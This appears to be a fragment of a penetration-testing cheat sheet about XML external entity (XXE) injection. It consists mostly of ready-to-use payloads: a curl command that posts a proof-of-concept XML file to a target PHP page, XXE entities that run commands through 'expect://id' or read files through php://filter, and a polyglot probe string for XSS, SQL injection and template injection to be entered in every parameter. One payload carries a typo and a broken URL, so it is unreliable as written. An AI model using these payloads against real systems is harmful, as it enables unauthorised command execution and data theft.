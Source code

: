 ```bash
#!/bin/bash
curl -d@/home/researcher/Desktop/payloads/poc.xml http://vulnerablesite.com/home/vulnerable.php
```



ID.xml

```xml
<!--ID command example-->
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>

<entry>
    <subject>&xxe;</subject>
    <category>Clothing</category>
    <text>New Shoes</text>
</entry>
```

Read Robots.txt (Base 64)

```xml
<!--Base64 response example-->
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/respource=http://vulnerable site/" >]>

<entry>
    <subject>&xxe;</subject>
    <category>Clothing</category>
    <text>New Shoes</text>
</entry>
```
{% endtab %}

{% tab title="Additonal Payloads" %}
#### Test for XSS and SQLi

```
--'`"><img src=x>kdskf${{7*7}}
```

Enter in EVERY parameter

* '"\` Javascript injection test
* '\`"> html tag attribute test
* &#x20;HTML injection
* $\{{7\*7\}} CSTI + SSTI
* \--'\`" SQLi
{% endtab %}
{% endtabs %}
